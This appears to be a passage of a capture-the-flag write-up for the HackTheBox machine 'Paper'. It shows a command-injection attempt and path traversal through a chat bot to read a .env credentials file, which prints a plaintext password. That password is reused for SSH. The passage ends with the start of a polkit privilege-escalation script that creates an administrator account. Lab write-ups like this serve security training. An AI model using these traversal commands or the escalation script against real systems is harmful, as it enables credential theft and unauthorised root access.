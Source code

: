 Maybe I can start an another command with ;
Ahahahah!!!!
Stop injecting OS commands!

Maybe I can fetch the wp-config.php
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'

![](https://i.imgur.com/dgD3w1p.png)
![](https://i.imgur.com/nGttbhu.png)


# Get user
recyclops file ../../../home/dwight/hubot/.env
export ROCKETCHAT_PASSWORD=Queenofblad3s!23

I have to try this password with the user of the box.
recyclops list ../../../home/
total 8
drwxr-xr-x. 3 root root 20 Jan 14 06:50 .
dr-xr-xr-x. 17 root root 244 Jan 17 11:37 ..
drwx------ 13 dwight dwight 4096 Feb 6 04:10 dwight
```sh
ssh dwight@paper.htb
```

# get root
In the dwight home we have a pk.sh file.
```sh
#!/bin/bash

# Set the name and display name
userName="hacked"
realName="hacked"

# Set the account as an administrator
accountType=1

# Set the password hash for 'password' and password hint
password='$5$WR3c6uwMGQZ/JEZw$OlBVzagNJswkWrKRSuoh/VCrZv183QpZL7sAeskcoTB'
passHint="password"

# Check Polkit version
polkitVersion=$(systemctl status polkit.service | grep version | cut -d " " -f 9)
if [[ "$(apt list --installed 2>/dev/null | grep polkit | grep -c 0.105-26)" -ge 1 || "$(yum list installed | grep polkit | grep -c 0.117-2)" ]]; then
    echo "[*] Vulnerable version of polkit found"
else
    echo "[!] WARNING: Version of polkit might not vulnerable"
fi
```
